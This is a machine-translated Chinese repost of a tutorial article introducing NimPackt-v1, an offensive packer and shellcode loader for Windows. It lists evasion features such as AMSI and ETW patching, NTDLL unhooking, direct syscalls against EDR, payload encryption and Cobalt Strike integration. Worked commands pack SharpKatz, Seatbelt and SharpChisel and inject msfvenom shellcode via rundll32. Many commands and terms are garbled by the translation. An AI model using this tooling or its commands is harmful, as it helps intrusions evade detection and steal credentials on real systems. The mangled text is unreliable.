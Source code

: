 # NimPackt-v1:用于 Opsec 和 Profit 的基于 Nim 的组装打包程序和外壳代码加载程序

> 原文：<https://kalilinuxtutorials.com/nimpackt-v1/>

[![](img//778d339ef9b3384f1ce8f3c98543fba8.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiPxCQwtniBw65fsASiHVJ58JDW8CA3rOrg1hkQJlW3F6i--_OcKc88kM4yfZp99CSKd48CbaNJWd1T9MwrHkNC7sAJee5zMgRrr8vNwgcKGy4GzJapINyGTu_Th83Dis_iHVGUHwzz1RXT_vnvCQRijcrugbmS9JdpCNhFj0ExNjvr4GgB3qvDrMhQ/s728/Nimpackt-Logo-Blacktext%20(1).png)

NimPackt-v1 是我写过的最糟糕的代码之一(我刚刚开始学习 Nim)。正因为如此，我开始对 NimPackt 进行全面重写，命名为‘NimPackt-NG’(目前仍然是私有的)。有了这个重写，我决定开源旧分支(“NimPackt-v1”)。因此，该分支机构不再维护，并且不提供任何形式的担保或支持。当然，公关总是受欢迎的🙂

NimPackt 是一个基于 Nim 的打包程序。针对 Windows 的. NET (C#)可执行文件和外壳代码。它自动将有效负载封装在编译成本地 C 语言的 Nim 二进制文件中，因此更难检测和逆向工程。有两种主要的执行方法:

*   重新打包一个. NET 可执行文件并运行它，选择性地应用规避措施，如 API 脱钩、AMSI 补丁或禁用 ETW。
*   `**Shinject**`获取带有原始的、与位置无关的外壳代码的原始. bin 文件，并在本地或远程进程中执行它，可选地使用直接系统调用来触发外壳代码或修补 API 挂钩来规避 EDR。

目前，NimPackt 具有以下特性。

*   使用静态系统调用来修补执行以避免 EDR
*   通过使用 ShellyCoat 刷新`**NTDLL.dll**`,为衍生线程解除用户模式 API
*   Windows 修补程序事件跟踪(ETW)
*   修补防恶意软件扫描界面(AMSI)
*   AES-使用随机密钥加密有效负载，以防止静态分析或指纹识别
*   编译成`**exe**`或`**dll**`
*   支持跨平台编译(从 Linux 和 Windows)
*   与 cobaltstrike 集成，用于 ezpz 有效载荷生成

在这里可以找到用于攻击性工具的基于 C#的二进制文件的一个很好的来源。强烈建议您自己编译 C#二进制文件。即使嵌入式二进制文件是加密的，您也应该对敏感的二进制文件(如 Mimikatz)进行模糊处理，以降低被检测的风险。

## 安装

如果您在使用 Syscalls 编译二进制文件时遇到问题，请尝试将 GCC 降级到版本 8.1.0(尤其是在 Windows 上)。总是测试生成的有效载荷！

在 **Linux** 上，只需安装所需的包，并使用 Nimble 包安装程序安装所需的包和 Python 库。

**sudo apt install-y python 3 mingw-w64 nim
pip 3 install pycryptodome arg parse
nimble install winim nim crypto**

在 **Windows** 上，从这里执行 Nim 安装程序。确保安装`**mingw**`并使用提供的`**finish.exe**`实用程序正确设置路径值。如果您没有安装 Python3，那么安装所需的包，如下所示。

nimble 安装 winim nimcrypto
pip3 安装 pycryptodome argparse

### 码头工人

Docker 映像 chvancooten/nimbuild 可用于编译 NimPackt-v1 二进制文件。使用 Docker 很容易，并且避免了依赖性问题，因为所有需要的依赖性都预先安装在这个容器中。

要使用它，请为您的操作系统安装 Docker，并确保输入的外壳代码在当前文件夹中。然后，在容器中开始编译，如下所示。

**对接器运行–RM-v`pwd`:/usr/src/NP-w/usr/src/NP chvancooten/nimbuild python 3 nimpacking . py-e shineject-I sc . bin**

### 钴击插件

要安装 CobaltStrike 插件，在菜单栏中选择**`Cobalt Strike`–**>`**Script Manager**`，然后选择`**Load**`。确保从原始位置加载`**.cna**`文件，否则它将无法找到 NimPackt 脚本文件！

## 使用

**用法:nimpackt . py[-h]-E Execution mode-I input file[-a ARGUMENTS][-na][-ne][-r]
[-t inject target][-E][-o output file][-nu][-ns][-f FILETYPE][-S][-32][-S]
[-d][-V][-V]
必需参数:
-e EXECUTIONMODE，–Execution mode Execution mode【执行模式】支持“execute-assembly”或“sh inject”
-I input file，–input file input file
c#。NET 二进制可执行文件(。exe)或外壳代码(。bin)来包装
执行程序集参数:
-a 参数，–ARGUMENTS
参数来“烘焙”包装的二进制文件，或“通过”来接受运行-
时间参数(默认)
-na，–nopatchamsi 不修补(禁用)反恶意软件扫描接口(AMSI)
-ne，–nodisableetw 不禁用 Windows 事件跟踪(ETW)
shinject 参数:
-r，–远程注入外壳代码 –现有的远程注入到现有的进程中，而不是新产生的进程中(默认
false，意味着-r)(警告:VOLATILE)
其他参数:
-o OUTPUTFILE，–outfile output file
输出文件的文件名(例如“合法二进制”)。 指定不带扩展名
或路径。此属性将作为原始的
文件名
-nu、–nounhook 不要通过加载新的
NTDLL.dll
-ns 来解除目标进程中用户模式 API 挂钩、–nosyscalls 不要使用直接系统调用(Windows 代)而不是高级的
API 来规避 EDR
-f 文件类型、–FILETYPE 文件类型
文件类型来编译(“exe”或“dll”)，默认:“exe”)【T3130 秒通过计算素数
-32，–32 位编译在 32 位模式下(未测试)
-S，–Show console 显示一个控制台窗口，显示运行
-d 时应用程序的输出，–debug 启用调试模式(保留。输出文件夹中的 nim 源文件)
-v，–运行时详细打印打包的二进制文件的调试消息
-V，–version 显示程序的版本号并退出**

**例题**

**打包 SharpKatz 以在运行时接受参数，修补 NTDLL 挂钩、AMSI 和 ETW，同时在运行时将详细消息打印到可见的控制台
python3。/nimpackt . py-e execute-assembly-I bins/sharp Katz-x64 . exe-S-v
将安全带打包成带有内建参数的 DLL 文件(注意:写入 outfile，因为 stdout 对 DLL 不可用)
python3 ./nimpackt . py-f DLL-e execute-assembly-I Seatbelt.exe-a "-group = all-output file = c:\ users \ public \ downloads \ sb . txt "
用内置的凿子主连接字符串打包 SharpChisel，不要脱钩、修补 AMSI 或禁用 ETW，在运行时隐藏应用程序窗口
python 3 nimpackt . py-nu-na-ne-e execute-assembly-I bins/sharp chiself . exe-a ' client–keepalive 25s–max-retry-interval 25 解钩 NTDLL 以及使用' MSF venom-p windows/x64/exec CMD = calc . exe-f raw-o/tmp/calc . bin '生成的外壳代码
python 3 nimpackt . py-I calc . bin-E sh inject-f dll
打包原始外壳代码以在不可见窗口中的新生成的计算器线程中执行
python 3 nimpackt . py-I calc . bin-E sh inject-t " calc . exe "** 

二进制文件存储在安装目录的`**output**`子文件夹中。生成的`**dll**`文件可以如下执行(可以在 Nim 模板中更改入口点):

**rundal 32 examples shinjectnimpacka . dll，IconSrv**

[Download](https://github.com/chvancooten/NimPackt-v1)
